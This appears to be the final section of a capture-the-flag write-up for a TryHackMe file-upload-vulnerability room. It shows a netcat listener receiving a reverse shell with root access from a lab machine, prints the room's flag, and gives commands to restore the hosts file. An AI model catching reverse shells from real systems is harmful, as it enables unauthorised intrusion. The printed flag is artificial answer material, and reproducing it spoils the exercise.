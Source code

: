 ```
```

```
kali@kali:~/CTFs/tryhackme/Upload Vulnerabilities$ nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.251.9 59444
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
cd ..
ls
flag.txt
html
cat flag.txt
THM{NzRlYTUwNTIzODMwMWZhMzBiY2JlZWU2}
```

`THM{NzRlYTUwNTIzODMwMWZhMzBiY2JlZWU2}`

## Task 12 Conclusion

Well, that's us done. Hopefully you've learnt something from completing this room. This was a very brief introduction to the basics of file upload vulnerabilities -- there is a lot more to learn! Use what you've learnt here to go and research more advanced exploits related to malicious file uploads.

Now that you've finished the room, remember to revert the changes you made your hosts file, way back in Task 1.

As a reminder, here are the commands to do so.

**On Linux or MacOS:**

`sudo sed -i '$d' /etc/hosts`

**On Windows:**

`(GC C:\Windows\System32\drivers\etc\hosts | select -Skiplast 1) | SC C:\Windows\System32\drivers\etc\hosts`

Room completed, and hosts file reverted!

`No answer needed`
